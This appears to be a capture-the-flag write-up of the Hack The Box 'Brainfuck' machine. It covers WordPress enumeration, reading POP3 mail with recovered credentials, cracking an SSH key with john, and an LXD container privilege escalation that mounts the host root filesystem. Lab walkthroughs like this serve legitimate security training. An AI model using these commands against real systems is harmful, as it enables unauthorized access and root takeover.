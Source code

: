 # [Brainfuck](https://app.hackthebox.com/machines/brainfuck)

```bash
nmap -p- --min-rate 10000 10.10.10.17 -Pn 
```

![Alt text](img/image.png)


After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,25,110,143,443 10.10.10.17 -Pn 
```

![Alt text](img/image-1.png)

From nmap scan result, I see that I need to add this ip address into '**/etc/hosts**' file.

```bash
www.brainfuck.htb
sup3rs3cr3t.brainfuck.htb
```


While accessing the application, I see that is Wordpress website.

![Alt text](img/image-2.png)

I grab orestis@brainfuck.htb as a username.


Let's use `wpscan` tool to search exploit for this website.
```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
```

![Alt text](img/image-3.png)

It finds this [exploit](https://www.exploit-db.com/exploits/41006).


I need to create **malicious html file**.

![Alt text](img/image-4.png)



Now, we are admin.

![Alt text](img/image-5.png)


I browse to the page called `wp-admin` to look at SNMP configuration as because from my nmap scan I saw that port (SNMP and POP3 are open).

![Alt text](img/image-6.png)


There's password to see this, I just need to look at Source Code (Ctrl+U)

![Alt text](img/image-7.png)

Password: kHGuERB29DNiNE


Let's connect to port (110) by using `nc`
```bash
nc -nv 10.10.10.17 110
USER orestis
PASS kHGuERB29DNiNE
```

![Alt text](img/image-8.png)

I just enumerate POP3 server via `retr 1` and `retr 2` commands to see mails.

![Alt text](img/image-9.png)


I grab credentials from here.

orestis: kIEnnfEKJ#9UmdO


From nmap scan result, I saw application 'sup3rs3cr3t.brainfuck.htb', let's login here via grabbed credentials.


![Alt text](img/image-10.png)


Here's interesting part, `Key Chat`.

![Alt text](img/image-11.png)


I grabbed all messages of them and try to decrypt.

I find a key of 'Vigenere cipher' equals to  “fuckmybrain” or “mybrainfuck” or maybe “brainfuckmy”.


![Alt text](img/image-12.png)

![Alt text](img/image-13.png)


While I browse the page 'https://brainfuck.htb/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa', I got private key of 'orestis' user.

Let's crack this via `ssh2john` tool.

```bash
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-14.png)


orestis: 3poulakia!


Let's login into machine via `ssh`.
```bash
ssh -i id_rsa orestis@10.10.10.17
```

user.txt

![Alt text](img/image-15.png)


While enumeration via `id` command, I see that this user belongs to group called '**lxd**' .

![Alt text](img/image-16.png)


I used privilege escalation technique from [here](https://www.hackingarticles.in/lxd-privilege-escalation/).

![Alt text](img/image-17.png)

Now, I need to transfer malicious 'gunzip' file (being 2023) into machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080
```
![Alt text](img/image-18.png)

Download this script.

```bash
wget http://10.10.16.8:8080/alpine-v3.19-x86_64-20231226_1158.tar.gz
```

![Alt text](img/image-19.png)

After this, we need to execute below commands.

```bash
lxc image import ./alpine-v3.19-x86_64-20231226_1158.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

![Alt text](img/image-20.png)



